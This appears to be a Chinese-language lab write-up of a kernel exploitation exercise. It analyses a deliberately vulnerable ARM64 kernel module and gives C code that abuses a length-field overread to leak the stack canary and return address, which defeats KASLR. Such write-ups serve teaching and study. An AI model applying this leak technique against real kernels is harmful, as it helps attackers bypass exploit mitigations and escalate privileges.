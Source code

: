 再来看看`zjubof_read()`：
```c
static ssize_t zjubof_read(struct file *file, char __user *buffer, size_t len, loff_t *offset)
{
    int ret = 0;
    if(len >= CMD_LENGTH)
        return -EINVAL;
    ret = copy_to_user(buffer, prev_cmd, len);
    return ret;
}
```
	这个函数限制了`len`不能大于等于`CMD_LENGTH`，即`49`个字节，否则返回一个错误代码；其效果是，将内核空间的指针`prev_cmd`指向的`len`字节内容复制到用户态指针`buffer`指向的内存中去，如果数据拷贝成功，则返回零；否则，返回没有拷贝成功的数据字节数。

## 2 Task 1: 绕过 stack canary 和 KASLR
首先从之前的分析可以得知，我们通过`read()`至多只能获取 48 个字节的内容；但是从`zjubof_write4()`中可以看出，如果我们在填入`cmd.command`时篡改`cmd.length`，那么我们就可以在后面填入`prev_cmd`时额外读取一些信息，形成 overread。

分析得知，我们以此法能看到的 48 个字节是：
![image.png](./assets/1651560151955-93adacfd-24c2-4511-b63f-458c6f9e3da1.png)
其要求是，`cmd.length`字段应当是`48`。

我们构造如下的 payload 实现 overread：
![image.png](./assets/1651551111149-5b4de543-73fa-4d53-a86c-9c03a6860ca4.png)
`len`设为`17`或者`24`。<br />（这里的输出是我另写的便于阅读的函数，绿色用来表示 write 的 buffer，青色用来表示 read 出来的结果）

运行两次，可以得到以下结果：
![image.png](./assets/1651517299355-4cd4d8dd-143f-459d-a882-5772e941c584.png)
可以看到，我们已经读到了一些额外的信息：`canary`每次都会变化，而`x29`和`x30`在同一次 qemu 启动时保持不变。

另一次启动时，我们可以看到，`x29`和`x30`在每次启动后也会发生变化：
![image.png](./assets/1651519015419-b136cfd8-ad53-4aa7-8b4e-f9201051cc42.png)

因此，根据之前对栈的分析，我们可以获取到`canary`和`x30`的值了（这里的观察是关闭了 KASLR 的情况下看到的）：
![image.png](./assets/1651560237527-aac5f644-c964-4b30-8115-17b873c24b3c.png)
使用 gdb 调试，可以看到，这里的`x30`的值事实上就是`zjubof_write2()`里面跳转指令`bl`的下一条指令的地址：
![image.png](./assets/1651560324484-8c525d2b-7047-41c9-b325-9fb549c44b1a.png)
（`bl <addr>`指令将 PC + 4 写入`x30`，然后跳转到`<addr>`）<br />因此，我们在实际运行时只需要计算获得的`x30`的值与`0xffff800010de7d0c`的差值，就可以得知当前 KASLR 提供的偏移了；即：
![image.png](./assets/1651561412529-42becf03-ab0c-4ffd-ac8d-38e5009ce9ce.png)
至此，我们可以绕过 canary 和 KASLR 了！

这一部分使用的代码如下；删除了所有调试输出的代码，完整代码见附录：
```c
static const u64 retAddrWithoutKASLR = 0xffff800010de7d0c;

char canary[8], oldRetAddr[8], oldFp[8], offset[8];

void getCanaryAndOffset(int fd) {
    int len = 0;
    char buf[50] = "0123456789012345\x30";
    
    len = write(fd, buf, 17); 
    len = read(fd, buf, 48); 
    
    copyByte(buf + 24, canary);
    copyByte(buf + 32, oldFp);
    copyByte(buf + 40, oldRetAddr);
    
    *(u64 *)offset = *(u64 *)oldRetAddr - retAddrWithoutKASLR;
}
```
